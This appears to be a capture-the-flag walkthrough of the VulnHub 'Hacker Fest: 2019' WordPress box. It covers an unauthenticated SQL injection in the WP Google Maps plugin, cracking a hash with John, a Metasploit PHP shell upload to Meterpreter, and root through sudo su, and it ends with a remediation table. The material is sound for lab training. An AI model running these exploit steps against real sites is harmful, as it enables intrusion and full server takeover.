



# Hacker Fest: 2019 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.0.20 |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Goal** | root — `/root/flag.txt` |
| **Source** | [HackingArticles](https://www.hackingarticles.in/hacker-fest-2019-vulnhub-walkthrough/) |

## Attack Summary

Hacker Fest: 2019 is a beginner-friendly WordPress box. A vulnerable Google Maps plugin (versions 7.11.00-7.11.17) exposes an unauthenticated SQL injection endpoint through the WordPress REST API. The extracted administrator hash is cracked with rockyou, then Metasploit's authenticated shell upload module delivers a Meterpreter session. A misconfigured `sudo` rule allows the `webmaster` user to run `sudo su` without a password, giving immediate root.

## Methodology

1. Recon — nmap reveals HTTP (80), FTP (21), SSH (22)
2. Enumeration — WPScan identifies vulnerable Google Maps plugin
3. Exploitation — SQLi extracts webmaster hash; John cracks it
4. Exploitation — wp_admin_shell_upload delivers Meterpreter
5. PrivEsc — sudo su (unrestricted sudo misconfiguration)

---

## Step 1: Reconnaissance

```bash
netdiscover -r 192.168.0.0/24
nmap -A 192.168.0.20
```


Open ports:
- **21/tcp** — FTP
- **22/tcp** — SSH
- **80/tcp** — HTTP (Apache, WordPress site)

---

## Step 2: Enumeration

Browse to `http://192.168.0.20` — WordPress installation.

Run WPScan to audit plugins:

```bash
wpscan --url http://192.168.0.20/
```


Finding: **WP Google Maps plugin** is outdated (vulnerable versions 7.11.00 through 7.11.17).

The plugin's REST API endpoint allows unauthenticated SQL injection.

---

## Step 3: Exploitation — SQL Injection (Google Maps Plugin)

```bash
msfconsole -q
msf> use auxiliary/admin/http/wp_google_maps_sqli
msf> set RHOSTS 192.168.0.20
msf> run
```



Result: password hash for user **webmaster** extracted from the WordPress database.

Save the hash and crack it:

```bash
echo '<hash>' > /root/hash
john --wordlist=/usr/share/wordlists/rockyou.txt /root/hash
# Result: kittykat1  (webmaster)
```

---

## Step 4: Exploitation — Authenticated Shell Upload

Use the cracked credentials to upload a PHP backdoor via the WordPress admin panel:

```bash
msf> use exploit/unix/webapp/wp_admin_shell_upload
msf> set RHOSTS 192.168.0.20
msf> set USERNAME webmaster
msf> set PASSWORD kittykat1
msf> exploit
```



Result: Meterpreter session as `www-data` (or `webmaster`).

Upgrade to a PTY and switch to the webmaster account:

```bash
meterpreter> shell
python -c 'import pty; pty.spawn("/bin/bash")'
su webmaster
# Password: kittykat1
```

Alternative (SSH direct, no Metasploit needed):

```bash
ssh webmaster@192.168.0.20
# Password: kittykat1
```

---

## Step 5: Privilege Escalation — sudo su

Check sudo rights:

```bash
sudo -l
# (ALL : ALL) ALL  or equivalent unrestricted rule
```

Escalate to root:

```bash
sudo su
# Now root
cd /root
ls
cat flag.txt
```



---

## Lessons Learned

- WordPress plugin management is a critical attack surface — even plugins from the official directory can have severe SQLi bugs.
- Unauthenticated REST API endpoints in WordPress plugins bypass authentication entirely; WAF rules must cover the REST namespace.
- Password reuse: once a hash is cracked, the same credential often works across SSH, FTP, and the admin panel.
- `sudo ALL` (or equivalent) for a web-facing account is a critical misconfiguration that trivially leads to root.
- The box is solvable without Metasploit: SSH with cracked credentials + `sudo su`.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| WP Google Maps SQLi (7.11.00-7.11.17) | Update plugin to a patched version; disable unused plugins |
| Weak password (rockyou list) | Enforce strong passwords; enable 2FA for admin accounts |
| wp_admin_shell_upload | Disable theme/plugin file editing in wp-config.php (`DISALLOW_FILE_EDIT`) |
| sudo ALL for webmaster | Restrict sudo to specific, necessary commands only |
